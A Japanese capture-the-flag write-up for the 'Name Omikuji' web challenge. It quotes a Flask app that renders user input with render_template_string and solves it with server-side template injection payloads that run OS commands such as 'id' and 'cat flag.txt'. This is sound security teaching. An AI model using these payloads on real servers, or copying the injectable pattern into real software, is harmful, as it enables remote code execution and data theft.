



# Name Omikuji:Web:XXXXpts
あなたの名前を占います！ (ちょっぴり厳しめ！)  
[https://name-omikuji.web.cpctf.space](https://name-omikuji.web.cpctf.space)  
[source code](name-omikuji.zip)  

**Hint1**  
SSTI (Server Side Template Injection) が使えそうです。  
**Hint2**  
`{{ 3 * 3 }}` という名前にすると 「こんにちは、9さん。」 になります。  
`{{ request }}` といった名前にすると変数の中身を覗くことができます。  
**Hint3 (解法)**  
「SSTI flask Payload」 などで調べると有用なペイロード (=攻撃用のコード片) が得られるはずです。  
今回の場合で言えば `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}` によってOSコマンドインジェクションを達成することができます。 (`id`の部分がコマンド)

# Solution
URLとソースコードが与えられる。  
アクセスすると、名前占いを行ってくれるサイトのようだ。  
  
試しに名前を入れてみると凶と言われる泣。  
  
いくつか別名を試すが、凶か大凶しか出ないので相当に厳しい占いのようだ。  
ソースを見ると主要な個所は以下となっていた。  
```python
from flask import Flask, request, render_template_string
import hashlib

~~~
app = Flask(__name__)


def get_fortune(name):
    hash_value = hashlib.sha256(name.encode()).hexdigest()
    zero_count = hash_value.count("0")

    if zero_count < 4:
        return "大凶"
    elif zero_count < 8:
        return "凶"
    elif zero_count < 16:
        return "小吉"
    elif zero_count < 32:
        return "中吉"
    elif zero_count < 64:
        return "吉"
    else:
        return "大吉"


@app.route("/")
def index():
    name = request.args.get("name")
    if name is None:
        return f"""
        {css}
        <h1>🔮 名前占い 🔮</h1>
        <form action="/" method="get">
            <label for="name">あなたの名前を入力してください:</label>
            <input type="text" id="name" name="name" required>
            <input type="submit" value="占う">
        </form>
        """

    fortune = get_fortune(name)

    result = f"""
    {css}
    <h1>🔮 名前占い 🔮</h1>
    <div class="result">
        <p>こんにちは、{name}さん。</p>
        <p>あなたの運勢は…… <span class="fortune">{fortune}</span> です！</p>
    """

    if fortune == "大吉":
        with open("flag.txt", "r") as f:
            content = f.read()
            result += f'<div class="flag">フラグは{content}です。</div>'

    result += "</div>"
    return render_template_string(result)


if __name__ == "__main__":
    app.run()
```
どうやら結果が`大吉`になるとフラグが表示されるようだ。  
名前占いのロジックは、SHA-256の結果がすべて`0`である場合のみ`大吉`になるというあり得ない厳しさだ。  
不可能なのでソースをよく見ると、`render_template_string`で明らかなSSTIがある。  
`flag.txt`にフラグが書かれているようなので、既知のペイロードである`{{lipsum.__globals__['os'].popen('cat flag.txt').read()}}`で読み取ってみる。  
  
flagが得られた。  

## CPCTF{sst1_is_d3ngerou2}